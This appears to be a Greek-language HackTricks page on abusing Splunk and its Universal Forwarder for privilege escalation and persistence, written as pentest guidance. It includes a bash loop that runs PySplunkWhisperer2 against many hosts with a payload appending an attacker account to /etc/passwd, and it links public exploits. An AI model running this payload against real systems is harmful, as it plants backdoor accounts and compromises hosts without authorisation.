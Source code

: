 # Splunk LPE and Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Αν **αριθμείτε** μια μηχανή **εσωτερικά** ή **εξωτερικά** και βρείτε **το Splunk να τρέχει** (θύρα 8090), αν τυχαίνει να γνωρίζετε οποιαδήποτε **έγκυρα διαπιστευτήρια** μπορείτε να **καταχραστείτε την υπηρεσία Splunk** για να **εκτελέσετε ένα shell** ως ο χρήστης που τρέχει το Splunk. Αν το τρέχει ο root, μπορείτε να αναβαθμίσετε τα δικαιώματα σε root.

Επίσης, αν είστε **ήδη root και η υπηρεσία Splunk δεν ακούει μόνο σε localhost**, μπορείτε να **κλέψετε** το **αρχείο** κωδικών **από** την υπηρεσία Splunk και να **σπάσετε** τους κωδικούς, ή να **προσθέσετε νέα** διαπιστευτήρια σε αυτό. Και να διατηρήσετε την επιμονή στον host.

Στην πρώτη εικόνα παρακάτω μπορείτε να δείτε πώς φαίνεται μια σελίδα web του Splunkd.



## Splunk Universal Forwarder Agent Exploit Summary

Για περισσότερες λεπτομέρειες ελέγξτε την ανάρτηση [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/). Αυτό είναι απλώς μια σύνοψη:

**Exploit Overview:**
Μια εκμετάλλευση που στοχεύει τον Splunk Universal Forwarder Agent (UF) επιτρέπει στους επιτιθέμενους με τον κωδικό του agent να εκτελούν αυθαίρετο κώδικα σε συστήματα που τρέχουν τον agent, ενδεχομένως να διακυβεύσουν ολόκληρο το δίκτυο.

**Key Points:**
- Ο agent UF δεν επικυρώνει τις εισερχόμενες συνδέσεις ή την αυθεντικότητα του κώδικα, καθιστώντας τον ευάλωτο σε μη εξουσιοδοτημένη εκτέλεση κώδικα.
- Κοινές μέθοδοι απόκτησης κωδικών περιλαμβάνουν την εύρεση τους σε καταλόγους δικτύου, κοινές χρήσεις αρχείων ή εσωτερική τεκμηρίωση.
- Η επιτυχής εκμετάλλευση μπορεί να οδηγήσει σε πρόσβαση σε επίπεδο SYSTEM ή root σε διακυβευμένους hosts, εξαγωγή δεδομένων και περαιτέρω διείσδυση στο δίκτυο.

**Exploit Execution:**
1. Ο επιτιθέμενος αποκτά τον κωδικό του agent UF.
2. Χρησιμοποιεί το API του Splunk για να στείλει εντολές ή scripts στους agents.
3. Πιθανές ενέργειες περιλαμβάνουν εξαγωγή αρχείων, χειρισμό λογαριασμών χρηστών και διακυβέρνηση συστήματος.

**Impact:**
- Πλήρης διακυβέρνηση του δικτύου με δικαιώματα SYSTEM/root σε κάθε host.
- Πιθανότητα απενεργοποίησης της καταγραφής για να αποφευχθεί η ανίχνευση.
- Εγκατάσταση backdoors ή ransomware.

**Example Command for Exploitation:**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**Χρήσιμα δημόσια exploits:**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## Κατάχρηση Ερωτημάτων Splunk

**Για περισσότερες λεπτομέρειες ελέγξτε την ανάρτηση [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Υποστήριξη HackTricks</summary>

* Ελέγξτε τα [**σχέδια συνδρομής**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε κόλπα hacking υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
